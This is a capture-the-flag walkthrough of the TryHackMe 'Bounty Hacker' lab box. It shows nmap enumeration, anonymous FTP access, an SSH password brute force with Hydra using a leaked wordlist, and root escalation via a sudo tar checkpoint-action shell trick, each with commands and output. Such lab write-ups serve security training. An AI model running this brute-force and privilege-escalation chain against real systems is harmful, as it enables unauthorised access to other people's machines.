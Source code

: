```yaml
---
title: Bounty Hacker
tags: [TryHackMe, Facile, Bruteforce]
style: border
color: "#9ff000"
modified: 2024-08-26
comments: false
description: Une box particulièrement facile pour débuter
---
```


# TryHackMe: Bounty Hacker <!-- omit in toc -->

![box image](https://tryhackme-images.s3.amazonaws.com/room-icons/9ad38a2cc31d6ae0030c888aca7fe646.jpeg)
![Easy](https://img.shields.io/badge/Difficulty-Easy-Green?logo=tryhackme)

>All the important informations like usernames, passwords, and flags will be  redacted so everybody can take the challenge. Have fun!

## Table of Content <!-- omit in toc -->

* [1. Enumeration](#1-enumeration)
* [2. The FTP Server](#2-the-ftp-server)
* [3. Bruteforce SSH with Hydra](#3-bruteforce-ssh-with-hydra)
* [4. Connection to the server](#4-connection-to-the-server)
  * [4.1. User flag](#41-user-flag)
  * [4.2. Root access](#42-root-access)

---

## 1. Enumeration

The first task of this box is to find open port. So let's run `nmap`.

```bash
$ nmap -T4 -A 10.10.xx.xx 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-20 11:59 CET
Nmap scan report for 10.10.xx.xx
Host is up (0.042s latency).
Not shown: 967 filtered tcp ports (no-response), 30 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.63.xxx
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 41.96 seconds
```

We found a FTP server with anonymous login allowed on port 21, a SSH server on port 22, and an Apache web server on port 80.

The web server allows us to understand the story of our character. Nothing useful for the next steps.

## 2. The FTP Server

Let's check what we can find in the FTP server.

```bash
$ ftp anonymous@10.10.xx.xx  
Connected to 10.10.xx.xx.
220 (vsFTPd 3.0.3)
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 EPRT command successful. Consider using EPSV.
150 Here comes the directory listing.
-rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
226 Directory send OK.
```

We can download the files with the `get <file>` command.

If we open the `task.txt` file, we can find the name required for to answer the first question of the box

```bash
$ cat task.txt    
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

[redacted]
```

The other document looks like a passwords file. Maybe we can use it to perform some bruteforce attack on the SSH server.

```bash
$ head -n 5 locks.txt
rEddrAGON
ReDdr4g0nSynd!cat3
Dr@gOn$yn9icat3
R3DDr46ONSYndIC@Te
ReddRA60N
```

## 3. Bruteforce SSH with Hydra

Now we have a potential username within the `task.txt` file and what might be a passwords file, let's check if we can find the right password.

```bash
$ hydra -l [redacted] -P locks.txt 10.10.xx.xx ssh   
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-01-20 12:24:23
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 26 login tries (l:1/p:26), ~2 tries per task
[DATA] attacking ssh://10.10.xx.xx:22/
[22][ssh] host: 10.10.xx.xx   login: [redacted]   password: [redacted]
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-01-20 12:24:27
```

We have a match! Now we can access the machine via SSH

## 4. Connection to the server

### 4.1. User flag

```bash
$ ssh [redacted]@10.10.xx.xx
[redacted]@10.10.xx.xx's password: 
[redacted for brevity]
[redacted]@bountyhacker:~/Desktop$ ls -hl
total 4.0K
-rw-rw-r-- 1 [redacted] [redacted] 21 Jun  7  2020 user.txt
[redacted]@bountyhacker:~/Desktop$ cat user.txt 
[redacted]
```

The user flag can easily be found on the user desktop. Now let's escalate our privileges.

### 4.2. Root access

```bash
[redacted]@bountyhacker:~/Desktop$ sudo -l
[sudo] password for [redacted]: 
Matching Defaults entries for [redacted] on bountyhacker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User [redacted] may run the following commands on bountyhacker:
    (root) /bin/tar
```

The user has the ability to use the command `/bin/tar` as sudo user. The [GTFOBins](https://gtfobins.github.io/gtfobins/tar/#sudo) website will help us taking advantage of this privilege.

```bash
[redacted]@bountyhacker:~/Desktop$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash
tar: Removing leading `/' from member names
root@bountyhacker:~/Desktop# id
uid=0(root) gid=0(root) groups=0(root)
```

We got the root shell with the command we found! Now we are close to find the root flag.

```bash
root@bountyhacker:~# cd /root
root@bountyhacker:/root# cd ~/Desktop/
root@bountyhacker:~/Desktop# cd /root
root@bountyhacker:/root# ls -hl
total 4.0K
-rw-r--r-- 1 root root 19 Jun  7  2020 root.txt
root@bountyhacker:/root# cat root.txt 
[redacted]
```
